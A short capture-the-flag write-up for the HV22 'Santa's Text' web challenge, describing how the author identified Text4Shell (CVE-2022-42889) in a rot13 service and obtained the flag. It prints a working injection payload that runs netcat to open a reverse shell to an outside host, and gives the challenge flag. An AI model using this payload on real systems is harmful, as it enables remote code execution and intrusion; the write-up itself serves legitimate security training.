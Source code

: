 # 09 - Santa's Text

## Description

Level: Medium<br/>
Author: yuva

Santa recently created some Text with a 🐚, which is said to be vulnerable code. Santa has put this Text in his library,
putting the library in danger. He doesn't know yet that this could pose a risk to his server. Can you backdoor the
server and find all of Santa's secrets?

## Solution

For this challenge we are given a webservice that takes our input and returns its rot13 version:

![image1.png](image1.png)
![image2.png](image2.png)

From the challenge description, we know that we have to get some kind of reverse shell. At first, I thought that we had
to use some kind of Log4Shell vulnerability. But after a trying that for a while, I came across
[Text4Shell](https://github.com/kljunowsky/CVE-2022-42889-text4shell) which turned out to be the right exploit in this
case.

I used the following payload:
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nc 10.13.0.0 80 -e /bin/bash')}
```

encoded it using rot13 and got a reverse shell. From there I found the flag:
`HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}`.
